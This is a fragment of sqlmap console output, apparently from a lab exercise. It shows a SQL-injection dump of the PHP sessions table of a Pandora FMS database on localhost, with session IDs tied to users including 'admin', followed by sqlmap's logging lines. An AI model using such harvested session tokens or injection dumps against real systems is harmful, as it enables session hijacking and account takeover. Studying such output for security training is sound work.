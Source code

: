 ```c
| 1cqctk2bd1goq81nog694bmsdg | id_usuario|s:6:"daniel";                            | 1648660609  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                | 1638792211  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                | 1638786129  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                            | 1638540332  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                | 1638795380  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                            | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                | 1638792685  |
| 5g6l76p4mncnest9ot5hr7opv1 | id_usuario|s:5:"admin";                             | 1648660377  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                            | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                            | 1641195617  |
| 6up1pgja7ic6tti8uoqu641vi3 | NULL                                                | 1648661423  |
| 7cv0ph58mnnfpu45mh9mj3nv0v | NULL                                                | 1648661212  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                            | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                | 1638787267  |
| 92h891j6qs18hn1k2e4r9vlg39 | NULL                                                | 1648661546  |
| 9dn1mbgeq1fljfhjsh9sk80asl | NULL                                                | 1648661124  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                            | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                | 1638795315  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                            | 1638881664  |
| amn2o2cejcplib5qgjdv8cl2l6 | NULL                                                | 1648659314  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                | 1638786277  |
| d59vtcusej59n46nn82rnv78n0 | NULL                                                | 1648658750  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                            | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                | 1638786349  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                | 1638540345  |
| hhjlv9j3fvb96gurpogjkg10jb | id_usuario|s:5:"admin";                             | 1648660258  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 1638168492  |
| j2bo9tvhgn1e6sb5u03p8101hc | NULL                                                | 1648661270  |
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                            | 1638456173  |
| koihrjg9bqn35hjos4mdrdmie7 | id_usuario|s:6:"daniel";                            | 1648660800  |
| kp90bu1mlclbaenaljem590ik3 | NULL                                                | 1638787808  |
| ne9rt4pkqqd0aqcrr4dacbmaq3 | NULL                                                | 1638796348  |
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                            | 1638540482  |
| oc1um2oum4n98a6d7fku241r56 | NULL                                                | 1648660640  |
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                            | 1637667827  |
| pjigpi88mlmmkllqfqh4ap2kmr | NULL                                                | 1648661225  |
| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                            | 1638168416  |
| q9oqum7kba0n0pip0626gjluea | NULL                                                | 1648659478  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                            | 1638889082  |
| tg6ehatvu0t8dps35nod40ph1c | NULL                                                | 1648661158  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                            | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                            | 1638793297  |
| ur7c35ngmoai7gs36odft79f9j | NULL                                                | 1648661348  |
+----------------------------+-----------------------------------------------------+-------------+

[13:29:22] [INFO] table 'pandora.tsessions_php' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/pandora/tsessions_php.csv'
[13:29:22] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 13:29:22 /2022-03-30/
```
